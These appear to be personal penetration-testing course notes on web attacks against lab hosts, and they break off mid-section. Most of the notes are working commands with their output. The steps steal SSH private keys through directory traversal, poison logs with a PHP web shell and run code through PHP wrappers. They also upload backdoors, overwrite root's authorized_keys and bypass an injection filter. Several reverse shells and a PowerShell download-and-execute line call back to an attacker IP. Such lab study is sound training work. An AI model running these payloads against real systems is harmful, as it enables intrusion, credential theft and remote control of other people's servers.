# Table of Contents:

> [Directory Traversal](#directory-traversal)  
> [File Inclusion](#file-inclusion)  
> [Encoding Special Characters](#encoding-special-characters)  
> [PHP Wrappers](#php-wrappers)  

-----------------------------


# Directory Traversal

### Absolute vs Relative Paths

- Linux Absolute: cat /etc/passwd
- Linux Absolute: cat .ssh/id_rsa
- Windows Absolute: C:\Windows\System32\drivers\etc\hosts
- Relative: ls ../../etc/passwd
- Relative: ls ../../.ssh/id_rsa

## Identifying and Exploiting Directory Traversals

**Windows File Systems:** ???
**Linux File Systems:**  /var/www/html/
```bash
#Typical Webpage HTML
http://example.com/file.html

#What is actually being pulled:
/var/www/html/file.html
```
- NOTE: always check for vulnerabilities by hovering over all buttons, checking all links, navigating to all accessible pages, and (if possible) examining the page's source code. Links can be an especially valuable source of information, providing parameters or other data about the application.
### Example
```bash
https://example.com/cms/login.php?language=en.html

#1: Tells us login.php tells us the web application uses PHP
#2: URL contains a language parameter with an HTML page as its value
    - Try to navigate to the file directly  (https://example.com/cms/en.html)
#3: the URL contains a directory called cms
    - indicating that the web application is running in a subdirectory of the web root
```
## Hover over each link, notice the link at the bottom


#### Clicking the link
- Note: Clicking the link shows an error at the bottom of the page, however the actual contents of the main page remains the same.

## Try director traversal via the ?page=
```bash

http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

Admin
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:106::/nonexistent:/usr/sbin/nologin sshd:x:105:65534::/run/sshd:/usr/sbin/nologin 
#offsec:x:1000:1000::/home/offsec:/bin/bash 

#NOTE: 1: Gave us a lister of usernames
#NOTE: 2: Shows us the file path /home/offsec, which we can now try to grab a SSH key for at /home/offsec/.ssh/id_rsa

```


## Grab SSH Key since we have file path

```bash
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```


## Grab the key with a CURL command

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

#NOTE: Sometimes Copy/Paste will not work for whatever reason. I had to do this to make it work, i output it into a file called "dt_key" then ran chmod on it.

curl "http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa" | sed -n '/BEGIN OPENSSH PRIVATE KEY/,/END OPENSSH PRIVATE KEY/p' > dt_key

#Then
chmod 400 dt_key

#Then
ssh -i dt_key -p 2222 offsec@mountaindesserts.com

```



## Directory Traversal notes:
- Once we gather information about the running application or service, we can research paths leading to sensitive files. For example, if we learn that a target system is running the Internet Information Services (IIS) web server, we can research its log paths and web root structure. Reviewing the Microsoft documentation, we learn that the logs are located at C:\inetpub\logs\LogFiles\W3SVC1\. Another file we should always check when the target is running an IIS web server is C:\inetpub\wwwroot\web.config, which may contain sensitive information like passwords or usernames.
- ..\ is an important alternative to ../ on Windows targets.
  - always try to leverage both forward slashes and backslashes when examining a potential directory traversal vulnerability in a web application running on Windows.

# Example #2

```bash

nmap -sV -sC -p 3000 192.168.217.193                                               

#Results

Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-23 18:14 +0000
Nmap scan report for 192.168.217.193
Host is up (0.093s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Grafana
|_Requested resource was /login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.99 seconds

# Then

searchsploit grafana    
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                                                                   | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                               | multiple/webapps/50581.py
Grafana <=6.2.4 - HTML Injection                                                                                          | typescript/webapps/51073.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------

# Then
searchsploit -m 50581.py 

#Then 
Read file instructions and usage
```


## Example command

```bash
curl --path-as-is "http://192.168.217.193:3000/public/plugins/graph/../../../../../../../../../Users/install.txt"    

#Results
OS{c4d05301a510d54e0bb446ca94dbb15d}
```

# Encoding Special Characters
- https://www.w3schools.com/tags/ref_urlencode.asp
```bash

# Utilize website to encode URLs or Burpsuite
# Note: Sometimes the output in the encoder is a bit off, showing %2F%2F instead of %2E%%2E. 

# Different example
curl --path-as-is "http://192.168.50.16/cgi-bin/../../../../../../../../../etc/passwd"
# Now Encode it:
curl --path-as-is "http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# Scenario Example
curl --path-as-is "http://192.168.217.16:3000/public/plugins/alertlist/../../../../../../../../../etc/passwd" 

#Results
root:x:0:0:root:/root:/bin/bash                                                                                                                             
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                                                             
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                                                        
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                                                        
sync:x:4:65534:sync:/bin:/bin/sync                                                                                                                          
games:x:5:60:games:/usr/games:/usr/sbin/nologin                                                                                                             
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                                                             
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                                                                
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                                                                                                                 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin                                                                                                           
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                                                         
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                                                                                                                  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                                                        
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                                                        
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                                                                                               
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin                                                                                                            
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin                                                                           
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin                                                                                                  
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin                                                                                                            
grafana:x:472:0::/home/grafana:/usr/sbin/nologin                  

#Run the same command encoded
curl --path-as-is "http://192.168.217.16:3000/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" 

#Results
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

# File Inclusion

### Try an observe access.log behavior
```bash
#Linux

#Relative Path
../../../../../../../../../var/log/apache2/access.log
../../../../../../../../../opt/admin.bak.php

#Windows
#Relative Path
..\..\..\..\..\..\..\..\..\
#Absolute Path
C:\xampp\apache\logs\access.log

# Scroll the the Burp Response to answer the following question
- Does it log the User agent string?
      - Yes: Try injecting a RCE

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log

# Results
SCROLL DOWN
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>  
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/ HTTP/1.1" 200 2361 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/bootstrap-theme.min.css HTTP/1.1" 200 2688 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/fontAwesome.css HTTP/1.1" 200 7826 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/hero-slider.css HTTP/1.1" 200 3340 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/tooplate-style.css HTTP/1.1" 200 3867 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/vendor/modernizr-2.8.3-respond-1.4.2.min.js HTTP/1.1" 200 8531 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/bootstrap.min.css HTTP/1.1" 200 19056 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/vendor/bootstrap.min.js HTTP/1.1" 200 9792 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/main.js HTTP/1.1" 200 1013 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.45.183 - - [23/Feb/2026:19:03:48 +0000] "GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log HTTP/1.1" 200 9640 "-" "curl/8.18.0"
# Looks like the same thing from Burp
```


# Modify the User Agent in Burp and specify what will be written to the access.log file
- Add code after `Mozilla/5.0' 
  ```bash
  <?php echo system($_GET['cmd']); ?>
  ```
 

 - The PHP code snippet was written to Apache's access.log file
   - 1st: enter the `ps` command to verify that the log poisoning is working.
     ```
     cmd=ps
     ```

    - 2nd: provide values for the two parameters (page for the relative path of the log and cmd for our command
    ```bash
    ../../../../../../../../../var/log/apache2/access.log

    # Put them together

    ../../../../../../../../../var/log/apache2/access.log&cmd=ps

    # Put the full string together with the Target Website

    GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps HTTP/1.1

    #DO NOT FORGET TO REMOVE INJECT FROM USER AGENT STRING. THIS PREVENTS RE-INJECTING!!

    # We confirmed it worked
    ```
    

# Incorporate ls -la command (Linux)

```
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls -la HTTP/1.1

# It does not like the spacing between ls -la
```



- Reference this site: https://www.w3schools.com/tags/ref_urlencode.asp


```bash
ls%20-la

# Put it all together 
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la HTTP/1.1
```


# Incorporate `dir` command (Windows)
- A target running XAMPP, the Apache logs can be found in C:\xampp\apache\logs\
```bash
GET /meteor/index.php?page=C:\xampp\apache\logs\access.log&cmd=dir
```



- View a file such as hopefullynobodyfindsthisfilebecauseitssupersecret.txt
- Put in the correct directory & filename
```bash
GET /meteor/index.php?page=C:\xampp\htdocs\meteor\hopefullynobodyfindsthisfilebecauseitssupersecret.txt HTTP/1.1
```

# Establish a Reverse Shell

## In this instance, the command is executed through a PHP system function.
### Couple Reverse Shell options
```bash
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

# or

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

# or

#URL Encoded via the website or https://www.revshells.com/ or https://www.w3schools.com/tags/ref_urlencode.asp
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```


or


### Start listener
```bash
nc -nvlp 4444
```


# PHP Wrappers

**- Two types of Wrappers mentioned:**
  - php://filter: wrapper can be used to include the contents of a file,
  - data://: used to achieve code execution

## Standard Curl Command Example

```bash
curl http://mountaindesserts.com/meteor/index.php?page=admin.php
```

## php://filter

```bash
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```

## Encoding the Output

```bash
# Agnostic command. index.php will change and possible php as well.
curl http://<HTML ADDRESS/index.php?page=php://filter/convert.base64-encode/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

# Try something else after resource=
# Example: resource=/var/www/html/backup.php  
```



- We discovered a base64 value that can be decoded and possible reveal sensitive information

```bash
echo <"BASE 64 VALUE"> | base64 -d

echo "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+CiAgICA8dGl0bGU+TWFpbnRlbmFuY2U8L3RpdGxlPgo8L2hlYWQ+Cjxib2R5PgogICAgICAgIDw/cGhwIGVjaG8gJzxzcGFuIHN0eWxlPSJjb2xvcjojRjAwO3RleHQtYWxpZ246Y2VudGVyOyI+VGhlIGFkbWluIHBhZ2UgaXMgY3VycmVudGx5IHVuZGVyIG1haW50ZW5hbmNlLic7ID8+Cgo8P3BocAokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOwokdXNlcm5hbWUgPSAicm9vdCI7CiRwYXNzd29yZCA9ICJNMDBuSzRrZUNhcmQhMiMiOwoKLy8gQ3JlYXRlIGNvbm5lY3Rpb24KJGNvbm4gPSBuZXcgbXlzcWxpKCRzZXJ2ZXJuYW1lLCAkdXNlcm5hbWUsICRwYXNzd29yZCk7CgovLyBDaGVjayBjb25uZWN0aW9uCmlmICgkY29ubi0+Y29ubmVjdF9lcnJvcikgewogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiAkY29ubi0+Y29ubmVjdF9lcnJvcik7Cn0KZWNobyAiQ29ubmVjdGVkIHN1Y2Nlc3NmdWxseSI7Cj8+Cgo8L2JvZHk+CjwvaHRtbD4K" | base64 -d
```



## Use PHP Wrapper data:// to run commands

- Test it to see if you can successful run a command
```bash
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```



- After a test, encode a PHP snippet into a base64 value.

```bash
echo -n '<?php echo system($_GET["cmd"]);?>' | base64

# Results
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
```


```bash
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

#Results
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
admin.php
bavarian.php
css
fonts
img
index.php
js
js

#Run other commands
uname -a or uname%20-a
(Shows Linux Kernal version)

#NOTE: Utilize https://www.w3schools.com/tags/ref_urlencode.asp to encode commands if nessessary
```


# Remote File Inclusion (RFI)

```bash
# RFIs are less command than LFIs

# RFI vulnerabilities allow us to include files from a remote system over HTTP or SMB

# Kali Linux includes several PHP webshells in the /usr/share/webshells/php/ directory

# RFI accepts commands in the cmd parameter and executes them via the system function similar to the PHP Wrapper above.
```


## Steps
1. To leverage an RFI vulnerability, we need to make the remote file accessible by the target system. In the directory containing a backdoor file, run:
```bash
python3 -m http.server 80
```
2. Use curl to include the hosted file via HTTP and specify ls as our command.
```bash
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.161/simple-backdoor.php&cmd=ls"

# Agnostic
curl "http://mountaindesserts.com/meteor/index.php?page=http://<YOUR IP>/simple-backdoor.php&cmd=COMMAND TO BE RAN"

# Search for an SSH Key
# Encode command: ls -a/home or ls%20%2Fhome

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.161/simple-backdoor.php&cmd=ls%20%2Fhome"

#Results 
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>elaine
</pre>

# Next
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.161/simple-backdoor.php&cmd=ls%20-a%20%2Fhome%2Felaine%2F"
#Results
<pre>.
..
.bash_logout
.bashrc
.profile
.ssh
</pre>  

# Ultimatly it ended with: 
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.161/simple-backdoor.php&cmd=cat%20%2Fhome%2Felaine%2F.ssh%2Fauthorized_keys"
```





## RFI into Reverse Shell
```bash
# Inspect php-reverse-shell.php file at /usr/share/webshells/php

# Instructions say to change:
  $ip
  $port
```



```bash
1. Host your shell and upload it.
  - python3 -m http.server 80 

  - curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.161/php-reverse-shell.php" 

  # Results: Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.211.16 - - [28/Feb/2026 14:38:33] "GET /php-reverse-shell.php HTTP/1.0" 200 -

2. Start listener:
  - nc -nvlp

3. Execute shell:
  - curl "http://mountaindesserts.com:8001/meteor/index.php?page=http://192.168.45.161/php-reverse-shell.php"
```


# File Upload Vulnerabilities


## Test what type of files can be uploaded

### Txt File

```bash
echo "this is a test" > test.txt
```


### PHP File




### Trial-and-error approach to find ways to bypass it.

- change the file extension to a less-commonly used PHP file extension such as .phps or .php7
- Another way we can bypass the filter is by changing characters in the file extension to upper case.

```bash
cp /usr/share/webshells/php/simple-backdoor.php /usr/share/webshells/php/simple-backdoor.pHP
```

https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/file-upload/alt-extensions-php.txt



### Execute Commands on uploaded backdoor file

```bash
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir

#Results
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre> Volume in drive C has no label.
 Volume Serial Number is E6C8-741F

 Directory of C:\xampp\htdocs\meteor\uploads

02/28/2026  07:06 AM    <DIR>          .
05/03/2022  06:02 AM    <DIR>          ..
05/03/2022  05:21 AM                 0 $sock)
02/28/2026  07:06 AM               328 simple-backdoor.pHP
02/28/2026  06:57 AM                15 test.txt
               3 File(s)            343 bytes
               2 Dir(s)   6,198,681,600 bytes free
</pre>      
```


### Upload and Execute Reverse Shell

## NOTE: First you need to know if its Linux or Windows

### Windows Based Example



```bash
# First find a windows reverse shell file

# I like to create a copy of the orginal. Create file to bypass filters, in this case its uppercase extention .pHP

cp /usr/share/webshells/php/windows-php-reverse-shell.php /usr/share/webshells/php/windows-php-reverse-shell.pHP

```


```bash
# Start Listener
nc -nvlp 4444

# Execute reverseshell
curl http://192.168.155.189/meteor/uploads/windows-php-reverse-shell.pHP
```

### Linux Based Example



- This told me it was Linux




- Upload it

```bash
# Start Listener
# Execute it via link
```


# Using Non-Executable Files

```bash
# Test with a uploading the same file twice, while editing the file path the 2nd time
upload test.txt
```

- 2nd upload of the saem file

```bash
#Added directory traversal:
filename="../../../../../../../../../../test.txt"
```


```bash
# We do not know the relative path of where the file is exactly, but what this tells us is that we may be able to overwrite or modify existing files.

# we can try to blindly overwrite files, which may lead us to system access

# Web applications using Apache, Nginx or other dedicated web servers often run with specific users, such as www-data on Linux. Traditionally on Windows, the IIS web server runs as a Network Service account, a passwordless built-in Windows identity with low privileges.
```
### Overwriting  authorized_keys file

```bash
# 1. Generate an SSH keypair and a file called `authorized_keys`

ssh-keygen

# Generating public/private ed25519 key pair.

Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 

fileup

Enter passphrase for "fileup" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fileup
Your public key has been saved in fileup.pub
The key fingerprint is:
SHA256:fQRl6TcHIyJ43EyD6Iea+TnaL7F4wio+rhB84qMuZWc kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|       + =+.o.   |
|      o = ++o o  |
|     . o . o.. o |
|.     o .. .. o .|
|.o . + .S . .. o |
|..= E .    .     |
|.= + o +         |
|=.. +.B          |
|O=o..+.+.        |
+----[SHA256]-----+
```
```bash
# Step 2
cat fileup.pub > authorized_keys
```




```bash
# Let's try to overwrite the authorized_keys file in the home directory for root or another user if you know it.

# relative path ../../../../../../../root/.ssh/authorized_keys

3. name="myFile"; filename="../../../../../../../root/.ssh/authorized_keys"

```


```bash
# Clear up ssh Known Hosts file if applicable

4. rm ~/.ssh/known_hosts

# Connect to SSH or SSH Port:
5. ssh -p 2222 -i fileup root@mountaindesserts.com
```

# Command Injection

```bash
# This is a very specific example of an OS Command Injection scenario.
# Test the `git` command


git clone https://gitlab.com/exploit-database/exploitdb

# Burp shows the "Archive" parameter is used for the command

Archive=git+clone+https%3A%2F%2Fgitlab.com%2Fexploit-database%2Fexploitdb

```




```bash
# What we know:
  - Archieve = Parameter utilized
  - Git: Working command

# use curl to provide our own commands to the parameter. We'll do this by using the -X parameter to change the request type to POST. We'll also use --data to specify what data is sent in the POST request.

curl -X POST --data 'Archive=ipconfig' http://192.168.155.189:8000/archive

#Results
Command Injection detected. Aborting...%!(EXTRA string=ipconfig) 

# It detected ipconfig. Lets try to bypass its filter with an encoded semicolon ";"

#So this:
curl -X POST --data 'Archive=git;ipconfig' http://192.168.155.189:8000/archive
# Turns into this:
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.155.189:8000/archive

```


## Windows Based OS Injection Example
```bash
# We determined it is windows based from the `ipconfig`

# Now we need to determine how the OS is running commands. Is it Command Prompt or Powershell? Here is a handy command we can run.

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

#Encoded
(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell

# Now combine it all

curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.155.189:8000/archive

# Its powershell
```


### Achieve System Access

- Resource: https://github.com/besimorhino/powercat

```bash

Transfer over powercat.ps1 located in the tools folder

# Host an HTTP Server
python3 -m http.server 80

# Start Listener
nc -nvlp 4444

# View command instructions on https://github.com/besimorhino/powercat

IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.161/powercat.ps1");powercat -c 192.168.45.161 -p 4444 -e powershell

# This command is telling it to download powercat.ps1 from <YOURIP>. The 2nd part of the command says to use -c command of powercat which is to connect to a listener. In this case its <OUR IP on Port 4444 and execute powershell>

```


```bash

# Now we have to encode it, and run it
IEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.161%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.161%20-p%204444%20-e%20powershell

# Put it together 
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.161%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.161%20-p%204444%20-e%20powershell' http://192.168.155.189:8000/archive
```



## Linux Based OS Injection Example

```bash
curl -X POST --data 'Archive=git%3Bls' http://192.168.155.16/archive

# Results
css
fonts
img
index.html
js
main
start.sh
          
```
## Estalbish Linux Based System Access
```bash
# curl -X POST --data 'Archive=git%3Bbash+-c+"bash+-i+>%26+/dev/tcp/<KALI IP>/4444+0>%261"' http://192.168.155.16/archive

# Start Listener
nc -nvlp 4444

curl -X POST --data 'Archive=git%3Bbash+-c+"bash+-i+>%26+/dev/tcp/192.168.45.161/4444+0>%261"' http://192.168.155.16/archive
```


## Linux Based OS Injection Example 2



```bash
HERE_IS_MY_COMMAND"&&whoami&&echo"

# Results
yelnets (Username)
```


## Estalbish Linux Based System Access 2
```bash
# Start Listener
nc -nvlp 4444

# Establish Shell
curl -X POST --data 'username=admin&password=admin&ffa=test"%26%26bash+-c+"bash+-i+>%26+/dev/tcp/192.168.45.161/4444+0>%261"%26%26echo"' http://192.168.155.16/login

# Here is a non-encoded version for understanding:

curl -X POST --data 'username=admin&password=admin&ffa=test"&&bash -c "bash -i >& /dev/tcp/192.168.45.161/4444 0>&1"&&echo"' http://192.168.155.16/login
```


```bash
# Bonus: you could also put your shell directly in the 3rd block field and that worked as well:

HERE_IS_MY_COMMAND"&&bash -c "bash -i >& /dev/tcp/192.168.45.161/4444 0>&1"&&echo"
```

## Windows Based OS Injection Example 2

```bash
#Nmap Scan
nmap -Pn 192.168.155.192
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-02 22:12 +0000
Nmap scan report for 192.168.155.192
Host is up (0.095s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5985/tcp open  wsman
8000/tcp open  http-alt
```
- Windows IIS on port 80
- 
- Another webservice on port 8000 where you can upload files

```bash
# I uploaded a .aspx (webshell) successfully, but the question is where does it get uploaded too? The clue says a different port, so in the browser i typed:

http://192.168.155.192/cmdasp.aspx
```


### Establish a reverse shell



```bash

# Start Listener
nc -nvlp 444

# Paste code in cmdasp.aspx
